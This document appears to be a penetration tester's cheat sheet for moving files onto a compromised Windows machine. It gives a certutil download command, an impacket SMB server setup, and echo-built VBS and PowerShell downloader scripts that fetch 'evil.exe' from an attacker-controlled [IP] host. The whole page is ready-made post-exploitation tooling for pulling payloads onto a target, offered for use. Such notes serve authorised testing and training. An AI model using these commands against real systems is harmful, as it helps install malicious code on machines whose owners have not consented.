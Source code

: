 ## File Transfers
**Delete yo shit when you done.**

DON'T USE CURL IF YOU CAN HELP IT, TRY CERTUTIL:
`certutil.exe -urlcache -split -f http://[IP]/test.exe`

You can host an FTP server if you really want to...
`pure-ftpd`

OR SMB
`impacket-smbserver SMB . -comment share -ts -debug -smb2support -username user -password 'pass'`

I like hosting a web server personally though.

Here's a fun little ditty to create a .vbs file to download a file from a self hosted web server if no other options exist:

```
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs
echo  Err.Clear >> wget.vbs
echo  Set http = Nothing >> wget.vbs
echo  Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo  If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo  If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo  If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo  http.Open "GET", strURL, False >> wget.vbs
echo  http.Send >> wget.vbs
echo  varByteArray = http.ResponseBody >> wget.vbs
echo  Set http = Nothing >> wget.vbs
echo  Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo  Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs
echo  strData = "" >> wget.vbs
echo  strBuffer = "" >> wget.vbs
echo  For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo  ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs
echo  Next >> wget.vbs
echo  ts.Close >> wget.vbs
```

SAMPLE USAGE:
`cscript wget.vbs http://[IP]/evil.exe evil.exe`

Here is a similar script builder for **powershell**:
`echo $webclient = New-Object System.Net.WebClient >>wget.ps1`
`echo $url = "http://[IP]/evil.exe" >>wget.ps1`
`echo $file = "new-exploit.exe" >>wget.ps1`
`echo $webclient.DownloadFile($url,$file) >>wget.ps1`
